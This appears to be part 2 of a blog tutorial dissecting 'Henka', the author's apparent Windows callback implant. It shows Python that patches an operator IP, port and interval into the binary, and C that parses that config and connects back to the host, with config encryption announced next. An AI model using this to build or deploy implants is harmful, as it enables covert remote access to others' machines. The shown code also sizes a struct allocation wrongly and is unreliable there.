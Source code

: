 ```yaml
---
layout: post
title: Henka In-depth! Part 2
date: 2024-02-01
---
```


---

# **Previous Post**

- **[Previous](https://nuker.github.io/2024/02/01/Henka-In-depth-1.html)**

> **In the last post we went over the basic functionality of Henka**
> **now we are going to pick it apart and understand what it really is doing.**

# **builder.py**

> **[builder.py](https://github.com/nuker/Henka/blob/main/modules/builder.py) is the main file for taking in the cli arguments,**
> **and forming them into a config to be placed inside of the binary lets take a look**

> **The first config creation mode is Quick this is just placing a plain config within the buffer**

```python

class Build(ABC):

	def __init__(self, ip: str, port: int, interval: int):

		self.ip = ip
		self.port = port
		self.interval = interval

	@abstractmethod
	def patch(self):
		pass
```

```python

class Quick(Build):

	# Plain jane

	def patch(self):

		if self.interval == None:
			self.interval = 5

		print(dim + gre + f"[#] Mode: Quick")
		print(dim + gre + f"[#] Config Address: {self.ip}")
		print(dim + gre + f"[#] Config Port: {self.port}")
		print(dim + gre + f"[#] Config Interval {self.interval}")

		config = b""
		config += self.ip.encode("UTF-8")
		config += b"-"
		config += str(self.port).encode("UTF-8")
		config += b"-"
		config += str(self.interval).encode("UTF-8")
		config += b"-"

		with open("bundle/win/bin/Henka.exe", "r+b") as Henka:

			# Get offset to config

			bHenka = Henka.read()
			offset = bHenka.find(b"HENKA-") + 6

			# Write config

			Henka.seek(offset)
			Henka.write(config)
```

> **For newer python people I will break the code down**

> **At the start of our patch function we check if there as a -c option supplied**
> **if not, we set a default which is 5 seconds**

```python
	if self.interval == None:
		self.interval = 5
```

> **Printing the values to the screen**

```python
	print(dim + gre + f"[#] Mode: Quick")
	print(dim + gre + f"[#] Config Address: {self.ip}")
	print(dim + gre + f"[#] Config Port: {self.port}")
	print(dim + gre + f"[#] Config Interval {self.interval}")
```

> **Next I start creating a config which is just a string of bytes in our case.**
> **Note how I am seperating each value of the config with "-" this will become VERY important later**
> **as this is how we will parse our config**

```python
	config = b""
	config += self.ip.encode("UTF-8")
	config += b"-"
	config += str(self.port).encode("UTF-8")
	config += b"-"
	config += str(self.interval).encode("UTF-8")
	config += b"-"
```

> **The last thing is to place the formed config inside of the buffer**

```python

	with open("bundle/win/bin/Henka.exe", "r+b") as Henka:

			# Get offset to config

			bHenka = Henka.read()
			offset = bHenka.find(b"HENKA-") + 6

			# Write config

			Henka.seek(offset)
			Henka.write(config)
```
> **I am opening the Henka binary with open (literally haha) and reading the bytes with ".read()"**
> **with the bytes of the file stored in a variable we can use the ".find()" method to**
> **search for the start of our config "HENKA-" once ".find()" has found the latter**
> **it will return an integer indicating how many bytes from the start of the file our config is it aka (the offset)**
> **once we have found the offset to the config buffer we add 6 to it because that is the length of "HENKA-"**

> **We want our cursor to be HENKA-_ <------- Here**

>**This is done with [.seek()](https://www.geeksforgeeks.org/python-seek-function/)**

> In Python, seek() function is used to change the position of the File Handle to a given specific position. File handle is like a cursor, which defines from where the data has to be read or written in the file. 

```python
Henka.seek(offset)
```

> **The final thing to do is place the config in the buffer**

```python
Henka.write(config)
```
# **Bin again?**

> **Now that we understand how our config is created and how it is placed**
> **inside of the binary. Let's understand how the config is parsed and ultimately**
> **used to complete our goal.**

> **Here is the code for parsing the config**

- **[config.c](https://github.com/nuker/Henka/blob/main/bundle/win/src/config.c)**

```c
#include "../inc/config.h"

/*
	(Mode 1) Default config creation
*/

void Make_config(PCONFIG Config, unsigned char *Buff) {

	unsigned char *Host;
	unsigned char *Port;
	unsigned char *Interval;

	strtok(Buff, "-");

	// Default

	Host = strtok(NULL, "-"); // Get to host
	Config->Host = Host;

	Port = strtok(NULL, "-"); // Get to port
	Config->Port = atoi(Port);

	Interval = strtok(NULL, "-"); // Get to callback
	Config->Interval = atoi(Interval);

}
```
> **Remember how we seperated (tokenized) our config values with "-" ?**
> **We can use [strtok()](https://www.tutorialspoint.com/c_standard_library/c_function_strtok.htm) to tokenize (split) each value and populate our struct values.**

> **Once the config is made we can access the values from our struct that we passed to Make_config and connect to the socket**

- **[Henka.c](https://github.com/nuker/Henka/blob/main/bundle/win/src/Henka.c)**

```c

    // Config creation

    PCONFIG Conf = (PCONFIG)malloc(sizeof(PCONFIG));

    Make_config(Conf, CBUFF);

    WSAStartup(MAKEWORD(2,2), &wsa);

    s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    ZeroMemory(&addr, sizeof(addr));

    addr.sin_family = AF_INET;
    addr.sin_port = htons(Conf->Port);
    addr.sin_addr.s_addr = inet_addr(Conf->Host);

    int conn = connect(s, (struct sockaddr *)&addr, sizeof(addr));

```
> **You may also wonder why I am allocating memory (malloc()) for the struct and that is what we will get into next...**

# **Next Post**

- **[Next Post](https://nuker.github.io/)**

> **In the next post I will be going over the development of**

- **Encrypting the config**
- **Decrypting the config to the memory we allocated**





